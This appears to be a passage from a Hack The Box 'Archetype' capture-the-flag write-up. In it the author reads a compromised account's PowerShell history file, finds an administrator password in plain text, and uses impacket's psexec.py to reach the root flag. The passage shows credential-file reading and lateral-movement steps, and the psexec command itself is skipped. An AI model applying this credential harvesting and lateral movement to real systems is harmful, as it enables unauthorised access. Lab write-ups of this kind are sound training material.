 
Notice the file named **ConsoleHost_history.txt**, let’s see what’s in there :

```powershell
PS C:\Windows\system32> type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

We have creds, now we need a tool to log in as Administrator on our target PC and we cannot do it directly in our [Windows](../../../../3%20-%20Tags/Hacking%20Concepts/Windows.md) Powershell as we do in the Linux system. There is a tool from our impacket named **psexec.py** which will help us.

- Kill the PowerShell and mssqlclient on our machine.
- Let’s use our tool:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 2/Archetype]
└─$ locate psexec.py
/usr/share/doc/python3-impacket/examples/psexec.py
/usr/share/powershell-empire/empire/server/modules/powershell/lateral_movement/invoke_psexec.py
/usr/share/set/src/fasttrack/psexec.py

┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 2/Archetype]
└─$ cp /usr/share/doc/python3-impacket/examples/psexec.py .

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
b91ccec3305e98240082d4474b848528

```

Pwned !!